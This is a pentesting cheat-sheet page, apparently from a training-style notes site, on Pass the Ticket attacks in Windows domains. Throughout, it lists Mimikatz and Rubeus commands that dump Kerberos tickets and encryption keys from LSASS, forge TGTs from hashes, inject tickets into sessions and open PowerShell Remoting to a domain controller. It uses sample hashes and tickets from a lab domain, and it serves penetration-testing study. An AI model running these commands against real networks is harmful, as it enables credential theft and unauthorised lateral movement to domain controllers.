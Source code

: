 ```yaml
---
title: Pass the Ticket (PtT) from Windows
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - lateral
  - movement
---
```

# Pass the Ticket (PtT) 

In this attack, we use a stolen Kerberos ticket to move laterally. It can be:

- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.


## Harvesting Kerberos Tickets from Windows

On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process. Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it.

**As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.**

### Mimikatz - Export Tickets

```cmd-session
.\mimikatz.exe
privilege::debug
sekurlsa::tickets /export
exit
dir *.kirbi
```

### Rubeus

If running as Local admin it will dump all the tickets. `Rubeus dump`, instead of giving us a file, will print the ticket encoded in base64 format.

```cmd-session
Rubeus.exe dump /nowrap
```

Another interesting command:

```powershell
Rubeus.exe dump /extractkeys /nowrap
```


## Forge your own tickets with Pass the Key or OverPass the Hash

The traditional pass-the-hash technique involves reusing a hash through the NTLMv1/NTLMv2 protocol, which doesn't touch Kerberos at all. The `Pass the Key` or `OverPass the Hash` approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`.

**Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

### Mimikatz  - Pass the Key or OverPass the Hash

It requires administrative rights.

**1.** Get hashes with sekurlsa::ekeys

To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module `sekurlsa::ekeys`. This module will enumerate all key types present for the Kerberos package.

```cmd-session
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

Now that we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using `Mimikatz` and `Rubeus`.

**2.** Pass the Key or OverPass the Hash

```cmd-session
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.

### Rubeus - Pass the Key or OverPass the Hash

It does not require administrative rights.

```cmd-session
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

This is not the case, but if we would want to crack the ticket, we could use [kirbi2john](kirbi2john.md) and hashcat to proceed.

## Pass the Ticket (PtT) with Rubeus

Now that we have some Kerberos tickets, we can use them to move laterally within an environment.

### With /ptt
With `Rubeus` we performed an OverPass the Hash attack and retrieved the ticket in base64 format. Instead, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.

```cmd-session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

### With kirbi file

```cmd-session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

### With kirbi in base64

We can also use the base64 output from Rubeus or convert a .kirbi to base64 to perform the Pass the Ticket attack. We can use PowerShell to convert a .kirbi to base64.

Convert .kirbi to Base64 Format: 

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

Using Rubeus, we can perform a Pass the Ticket providing the base64 string instead of the file name.

```powershell
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```


## Pass the Ticket (PtT) with mimikatz

```powershell
#  we can use Mimikatz to import our ticket
.\mimikatz.exe 
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"

```


## Pass The Ticket with PowerShell Remoting (Windows)

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to run scripts or commands on a remote computer.  

Administrators often use PowerShell Remoting to manage remote computers on the network.

Enabling PowerShell Remoting creates both HTTP and HTTPS listeners.

To create a PowerShell Remoting session on a remote computer, you must:
- have administrative permissions, 
- be a member of the Remote Management Users group, 
- or have explicit PowerShell Remoting permissions in your session configuration.

### With mimikatz

```powershell
# To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket
.\mimikatz.exe
privilege::debug
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
exit

# And then open a PowerShell console and connect to the target machine
powershell
Enter-PSSession -ComputerName DC01
```

### With Rubeus

**1.** Create a Sacrificial Process with Rubeus

Rubeus has the option createnetonly, which creates a sacrificial process/logon session (Logon type 9).

```cmd-session
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

# The command above will open a new cmd window. The below commands will run on this new terminal window
```

**2.** Rubeus - Pass the Ticket for Lateral Movement

Execute Rubeus to request a new TGT with the option /ptt to import the ticket into our current session:

```cmd-session
# Extract keys. We did this in the Harvesting section
Rubeus.exe dump /nowrap

# Then pass the ticket
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```

Another way to import the ticket:

```powershell
# Extract keys. We did this in the Harvesting section
Rubeus.exe dump /nowrap

# Then pass the ticket:
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```


**3.** Either with mimikatz or Rubeus, once we import the ticket we can connect to the DC using PowerShell Remoting.

```cmd-session
powershell
Enter-PSSession -ComputerName DC01
```

